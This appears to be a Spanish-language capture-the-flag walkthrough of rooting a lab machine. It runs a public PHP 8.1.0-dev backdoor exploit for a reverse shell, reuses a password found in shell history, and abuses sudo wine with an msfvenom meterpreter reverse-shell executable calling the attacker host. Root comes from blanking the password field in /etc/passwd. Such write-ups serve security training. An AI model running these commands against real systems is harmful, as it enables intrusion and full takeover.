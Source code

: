 Hacemos el reconocimiento con nmap:
![[Pasted image 20231030074318.png]]
Y esto corre dentro del puerto 80:
![[Pasted image 20231030074348.png]]
Y lo mismo por el puerto 8080:
![[Pasted image 20231030074419.png]]
Y si miramos las cabeceras del puerto 8080 vemos algo de php:
![[Pasted image 20231030074808.png]]
Investigamos exploits para esta versión, donde podemos usar el siguiente exploit:
https://github.com/flast101/php-8.1.0-dev-backdoor-rce
![[Pasted image 20231030074902.png]]
Vemos las instrucciones y lo lanzamos:
```bash
python revshell_php_8.1.0-dev.py http://192.168.0.43:8080/ 192.168.0.32 443
```
![[Pasted image 20231030075045.png]]
Donde recibiremos la reverse shell:
![[Pasted image 20231030075059.png]]
Pero vemos que no estamos dentro de la máquina víctima, sino a un contenedor o algo similar:
![[Pasted image 20231030075146.png]]
Y si miramos en el history, vemos una contraseña para entrar como el usuario liam:
```bash
liam:L14mD0ck3Rp0w4
```
![[Pasted image 20231030075553.png]]
Y vemos que funciona y ya somos el usuario liam:
![[Pasted image 20231030075655.png]]
Si ejecutamos un sudo -l vemos que podemos ejecutar como sudo la herramienta de wine:
![[Pasted image 20231030075809.png]]
Pero si lo ejecutamos, vemos que pide un fichero .exe para ejecutarlo:
![[Pasted image 20231030080321.png]]
Por lo que podemos crear con msfvenom un fichero malicioso en formato exe:
```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.0.32 LPORT=443 -f exe > pwned.exe
```
Y lo compartimos con la máquina víctima:
![[Pasted image 20231030080617.png]]
Y ponemos el payload para recibir una sesión de meterpreter:
```bash
set PAYLOAD windows/x64/meterpreter/reverse_tcp
```
![[Pasted image 20231030080705.png]]
Lo ejecutamos como sudo en la máquina víctima:
![[Pasted image 20231030080757.png]]
Y recibimos la conexión con mi máquina atacante como root:
![[Pasted image 20231030080831.png]]
Pero esta sesión tiene limitaciones, por lo que si queremos convertirnos en usuario root de forma normal, podemos copiarnos en local el fichero /etc/passwd y eliminar la parte de la x de root, de tal forma que así podremos iniciar sesión como root sin proporcionar su contraseña:
![[Pasted image 20231030081501.png]]
Y quitamos la x de root, lo cual significa que es el campo de contraseña:
![[Pasted image 20231030081618.png]]
Lo volvemos a subir a la máquina víctima reemplazando el passwd original, ubicándonos en el directorio /etc y ahí lo subimos:
![[Pasted image 20231030081755.png]]
Por lo que si ahora iniciamos sesión como liam y ejecutamos el comando su root, no nos pedirá las credenciales gracias a haber reemplzado el fichero passwd:
![[Pasted image 20231030081912.png]]
